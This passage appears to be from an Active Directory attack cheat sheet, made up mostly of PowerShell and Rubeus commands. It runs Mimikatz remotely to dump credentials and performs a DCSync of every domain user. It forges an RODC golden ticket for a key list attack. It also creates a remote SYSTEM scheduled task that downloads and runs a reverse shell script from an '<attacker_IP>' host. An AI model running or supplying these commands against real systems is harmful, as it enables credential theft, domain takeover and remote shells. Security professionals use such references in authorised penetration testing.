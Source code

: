 #### Execute scripts

```powershell
#Script block
Invoke-Command -Scriptblock {Get-Process} -ComputerName Server01, Server02

#Script from file
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -ComputerName Server01
```

#### Execute locally loaded function to remote

Can be usefull to bypass some restricions

```powershell
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName Server01, Server02

#With arguments
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName Server01 -ArgumentList DumpCreds
```

#### Item copy

```powershell
Copy-Item -ToSession $sess -Path <local_path> -Destination <path_on_target>
```

### Scheduled task creation

Create a scheduled task on a remote machine, with sufficient rights

```powershell
#Creation
schtasks /create /S <target>.domain.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://<attacker_IP>/Invoke-PowerShellTcp.ps1''')'"

#Task execution
schtasks /Run /S <target>.domain.local /TN "STCheck"
```

### Credentials gathering / Mimikatz

#### Dump creds

```powershell
#Dump credentials on a local machine.
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'

#Dump credentials on multiple remote machines.
Invoke-Mimikatz -DumpCreds -ComputerName @("Server01","Server02")

#Make a DCSync attack on all the users
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:domain.local /all"'

#Retrieve NT hashes via Key List Attack on a RODC
    #First, forge a RODC Golden Ticket
.\Rubeus.exe golden /rodcNumber:<krbtgt_number> /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:<krbtgt_aes_key> /user:user1 /id:<user_RID> /domain:domain.local /sid:<domain_SID>
    #Then, request a ST and retrieve the NT hash in the TGS-REP
.\Rubeus.exe asktgs /enctype:aes256 /keyList /ticket:ticket.kirbi /service:krbtgt/domain.local 

#Certsync - retrieve the NT hashes of all the users with PKINIT
#Backup the private key and the certificate of the Root CA, and forge Golden Certificates for all the users
```